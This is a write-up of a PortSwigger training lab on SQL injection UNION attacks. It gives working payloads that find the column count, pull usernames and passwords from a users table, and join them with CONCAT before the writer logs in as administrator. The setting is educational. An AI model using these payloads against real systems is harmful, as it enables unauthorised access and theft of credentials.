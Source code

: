 # SQL injection UNION attack, retrieving data from other tables

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

![Lab Description](img/lab-description.png)

## Objective

The lab objective is to retrive data from other tables.

## Analysis

The initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases a product catalog with a product name. The navbar contains a feature to filter out products by category.

As in the previous lab, we can use the `ORDER BY` clause to determine the number of columns query returns.

```bash
'+ORDER+BY+2+--
```

**In my case, the query returns `two` columns however only one is displayed or returned. You can confirm that from the below payloads:**

**This payload will cause an internal server error.**

```bash
'+union+select+username,password+from+users+--
```

**However, this will return valid credentials.**

```bash
'+union+select+null,username+from+users+--
```

OR

```bash
'+union+select+null,password+from+users+--
```

## Solution

It seems like there is a mechanism on the backend that only returns the last column thus we can get only one column at a time. However, we can bypass this using the `CONCAT()` function.

```bash
'+union+select+null,concat(username,'-',password)+from+users+--
```

After retrieving the credentials log in as `administrator` to solve this lab.

![Lab Solved]
